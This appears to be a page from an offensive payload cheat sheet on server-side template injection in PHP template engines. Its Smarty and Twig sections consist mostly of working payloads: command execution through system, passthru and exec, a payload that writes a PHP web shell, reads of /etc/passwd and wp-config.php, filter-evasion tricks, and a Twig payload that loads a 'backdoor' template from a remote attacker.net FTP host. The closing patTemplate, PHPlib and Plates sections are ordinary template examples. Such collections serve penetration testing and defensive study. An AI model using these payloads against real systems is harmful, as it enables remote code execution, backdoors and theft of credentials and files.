 # Server Side Template Injection - PHP

## Summary

- [Smarty](#smarty)
- [Twig](#twig)
    - [Twig - Basic injection](#twig---basic-injection)
    - [Twig - Template format](#twig---template-format)
    - [Twig - Arbitrary File Reading](#twig---arbitrary-file-reading)
    - [Twig - Code execution](#twig---code-execution)
- [patTemplate](#pattemplate)
- [PHPlib](#phplib-and-html_template_phplib)
- [Plates](#plates)


## Smarty

[Official website](https://www.smarty.net/docs/en/)
> Smarty is a template engine for PHP.

```python
{$smarty.version}
{php}echo `id`;{/php} //deprecated in smarty v3
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
{system('ls')} // compatible v3
{system('cat index.php')} // compatible v3
```

---

## Twig

[Official website](https://twig.symfony.com/)
> Twig is a modern template engine for PHP.

### Twig - Basic injection

```python
{{7*7}}
{{7*'7'}} would result in 49
{{dump(app)}}
{{dump(_context)}}
{{app.request.server.all|join(',')}}
```

### Twig - Template format

```python
$output = $twig > render (
  'Dear' . $_GET['custom_greeting'],
  array("first_name" => $user.first_name)
);

$output = $twig > render (
  "Dear {first_name}",
  array("first_name" => $user.first_name)
);
```

### Twig - Arbitrary File Reading

```python
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{include("wp-config.php")}}
```

### Twig - Code execution

```python
{{self}}
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{['id']|filter('system')}}
{{[0]|reduce('system','id')}}
{{['id']|map('system')|join}}
{{['id',1]|sort('system')|join}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{['id']|filter('passthru')}}
{{['id']|map('passthru')}}
```

Example injecting values to avoid using quotes for the filename (specify via OFFSET and LENGTH where the payload FILENAME is)

```python
FILENAME{% set var = dump(_context)[OFFSET:LENGTH] %} {{ include(var) }}
```

Example with an email passing FILTER_VALIDATE_EMAIL PHP.

```powershell
POST /subscribe?0=cat+/etc/passwd HTTP/1.1
email="{{app.request.query.filter(0,0,1024,{'options':'system'})}}"@attacker.tld
```

---

## patTemplate

> [patTemplate](https://github.com/wernerwa/pat-template) non-compiling PHP templating engine, that uses XML tags to divide a document into different parts

```xml
<patTemplate:tmpl name="page">
  This is the main page.
  <patTemplate:tmpl name="foo">
    It contains another template.
  </patTemplate:tmpl>
  <patTemplate:tmpl name="hello">
    Hello {NAME}.<br/>
  </patTemplate:tmpl>
</patTemplate:tmpl>
```

---

## PHPlib and HTML_Template_PHPLIB

[HTML_Template_PHPLIB](https://github.com/pear/HTML_Template_PHPLIB) is the same as PHPlib but ported to Pear.

`authors.tpl`

```html
<html>
 <head><title>{PAGE_TITLE}</title></head>
 <body>
  <table>
   <caption>Authors</caption>
   <thead>
    <tr><th>Name</th><th>Email</th></tr>
   </thead>
   <tfoot>
    <tr><td colspan="2">{NUM_AUTHORS}</td></tr>
   </tfoot>
   <tbody>
<!-- BEGIN authorline -->
    <tr><td>{AUTHOR_NAME}</td><td>{AUTHOR_EMAIL}</td></tr>
<!-- END authorline -->
   </tbody>
  </table>
 </body>
</html>
```

`authors.php`

```php
<?php
//we want to display this author list
$authors = array(
    'Christian Weiske'  => 'cweiske@php.net',
    'Bjoern Schotte'     => 'schotte@mayflower.de'
);

require_once 'HTML/Template/PHPLIB.php';
//create template object
$t =& new HTML_Template_PHPLIB(dirname(__FILE__), 'keep');
//load file
$t->setFile('authors', 'authors.tpl');
//set block
$t->setBlock('authors', 'authorline', 'authorline_ref');

//set some variables
$t->setVar('NUM_AUTHORS', count($authors));
$t->setVar('PAGE_TITLE', 'Code authors as of ' . date('Y-m-d'));

//display the authors
foreach ($authors as $name => $email) {
    $t->setVar('AUTHOR_NAME', $name);
    $t->setVar('AUTHOR_EMAIL', $email);
    $t->parse('authorline_ref', 'authorline', true);
}

//finish and echo
echo $t->finish($t->parse('OUT', 'authors'));
?>
```

---

## Plates

Plates is inspired by Twig but a native PHP template engine instead of a compiled template engine.

controller:

```php
// Create new Plates instance
$templates = new League\Plates\Engine('/path/to/templates');

// Render a template
echo $templates->render('profile', ['name' => 'Jonathan']);
```

page template:

```php
<?php $this->layout('template', ['title' => 'User Profile']) ?>

<h1>User Profile</h1>
<p>Hello, <?=$this->e($name)?></p>
```

layout template:

```php
<html>
  <head>
    <title><?=$this->e($title)?></title>
  </head>
  <body>
    <?=$this->section('content')?>
  </body>
</html>
```

---
